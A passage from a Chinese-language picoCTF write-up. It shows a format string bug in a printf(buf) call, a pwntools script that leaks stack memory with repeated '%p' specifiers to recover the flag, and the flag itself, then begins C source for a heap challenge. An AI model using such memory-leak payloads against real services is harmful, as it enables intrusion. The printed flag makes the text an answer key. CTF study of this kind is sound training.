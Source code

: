 可以明顯地看到在第 36 行那邊的`printf(buf)`是沒有加上格式化字符的，所以這邊有一個很明顯的 format string vulnerability。我們用 netcat 連接題目看看。

```bash
nc mimas.picoctf.net 53267
```

連上題目後發現他說 Give me your order and I'll read it back to you，所以我們嘗試輸入`%p`後發現他會輸出一個十六進位的東西。以下是題目的輸出。

```txt
Here's your order: 0x402118
Bye!
```

這看起來可以把它轉回字串，並且如果多輸入幾個`%p`應該就能把 Flag 給 Leak 出來。我寫了一個 Exploit，去嘗試獲取 Flag。在腳本中之所以要把每一段十六進位轉回的字串前後翻轉，是因為題目剛剛有說"I'll read it back to you"，所以推測他應該是反著過來輸出的。Exploit 如下：

```python
from pwn import *
from Crypto.Util.number import long_to_bytes

r = remote("mimas.picoctf.net", 53267)

payload = ",".join(["%p"] * 20)
print(payload)
r.sendline(payload)
r.recvuntil(b"Here's your order: ")
res = r.recvuntil(b"Bye!").decode().removesuffix("Bye!").split(",")

flag = ""
for i in res:
    try:
        flag += long_to_bytes(int(i, 16)).decode()[::-1]
    except ValueError:
        pass

print(flag)
```

果然，執行後就可以看到 Flag 啦。

```txt
picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}
```

# heap 0

先把題目給的 source code 下載下來看看。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

```